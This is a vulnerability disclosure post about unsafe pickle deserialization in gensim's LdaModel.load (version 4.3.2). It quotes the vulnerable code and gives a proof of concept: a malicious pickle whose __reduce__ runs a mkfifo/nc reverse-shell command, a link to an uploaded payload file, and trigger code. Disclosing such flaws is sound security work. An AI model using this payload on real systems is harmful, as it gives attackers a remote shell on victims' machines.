 ```yaml
---
layout: post
title:  "Command injection via unsafe pickle.loads in LdaModel.load in gensim"
date:  2024-06-24 10:31:06 +0800
categories: command-injection
---
```


## Name

> Command injection via unsafe pickle.loads in LdaModel.load

## Weakness

> CWE-94: Code Injection

## Severity

> High (8.8)

## Version

> 4.3.2

## Description

The gensim api [`gensim.models.ldamodel.LdaModel.load`](https://radimrehurek.com/gensim/models/ldamodel.html#gensim.models.ldamodel.LdaModel.load) is used to Load a LdaModel from file, and the LdaModel is stored in pickle file. In [`LdaModel.load#L1692`](https://github.com/piskvorky/gensim/blob/dc5b5c48e7454fe22cf98ddac60ff85107226f6a/gensim/models/ldamodel.py#L1692), it uses `utils.unpickle` to deserilize the model file. And in [`utils.unpickle`](https://github.com/piskvorky/gensim/blob/dc5b5c48e7454fe22cf98ddac60ff85107226f6a/gensim/utils.py#L1460), it uses `pickle.load` to load the pickle model which will causing code injection when loading a malicious pickle file.

The vulnerable function: [`LdaModel.load#L1692`](https://github.com/piskvorky/gensim/blob/dc5b5c48e7454fe22cf98ddac60ff85107226f6a/gensim/models/ldamodel.py#L1692)

```
@classmethod
    def load(cls, fname, *args, **kwargs):
    ...
    id2word_fname = utils.smart_extension(fname, '.id2word')
    ...
    if os.path.isfile(id2word_fname):
        try:
            # vulnerable to code injection !!!
            result.id2word = utils.unpickle(id2word_fname)
        except Exception as e:
            logging.warning("failed to load id2word dictionary from %s: %s", id2word_fname, e)
    return result
```

The [`utils.unpickle#L1460`](https://github.com/piskvorky/gensim/blob/dc5b5c48e7454fe22cf98ddac60ff85107226f6a/gensim/utils.py#L1460) funtion:

```
def unpickle(fname):
    """Load object from `fname`, using smart_open so that `fname` can be on S3, HDFS, compressed etc.

    Parameters
    ----------
    fname : str
        Path to pickle file.

    Returns
    -------
    object
        Python object loaded from `fname`.

    """
    with open(fname, 'rb') as f:
        # vulnerable to code injection !!!
        return _pickle.load(f, encoding='latin1')  # needed because loading from S3 doesn't support readline()
```

## Proof of Concept

Firstly, create a malicious pickle file. Use following snippets to create a malicous `payload.pickle` file:

```
import pickle
import os

class RCE:
    def __reduce__(self):
        cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | '
               '/bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f')
        return os.system, (cmd,)

with open('payload.pickle', 'wb') as f:
    pickle.dump(RCE(), f)
```

I have uploaded the [`payload.pickle`](https://raw.githubusercontent.com/sunriseXu/onnx/main/payload.pickle) to github for testing.


## Start attack

Install latest gensim:

```
pip install gensim
```

Use following snippets to trigger the unsafe `pickle.loads` command injection:

```
from gensim.models.ldamodel import LdaModel
lda = LdaModel.load("payload.pickle")
```

After the command executed, we can check the `/tmp/f` file is created.

```
> ls -la /tmp/f
prw-r--r-- 1 kali kali 0 Jun 24 19:48 /tmp/f
```
## Colab

Tested on google colab: [https://colab.research.google.com/drive/1XJkrl4-PEjd9lMl_Q-epTyBBORNbJjSj?usp=sharing](https://colab.research.google.com/drive/1XJkrl4-PEjd9lMl_Q-epTyBBORNbJjSj?usp=sharing)

![image](http://live.staticflickr.com/65535/53821790176_089365c3f3_k.jpg)

## Impact

This vulnerability can have severe consequences. If victims load a malicious pickle model using `LdaModel.load`, command injection can be achieved on victims' mechine.


## Occurrences

[LdaModel.load#L1692](https://github.com/RaRe-Technologies/gensim/blob/dc5b5c48e7454fe22cf98ddac60ff85107226f6a/gensim/models/ldamodel.py#L1692)

[utils.unpickle#L1460](https://github.com/RaRe-Technologies/gensim/blob/dc5b5c48e7454fe22cf98ddac60ff85107226f6a/gensim/utils.py#L1460)

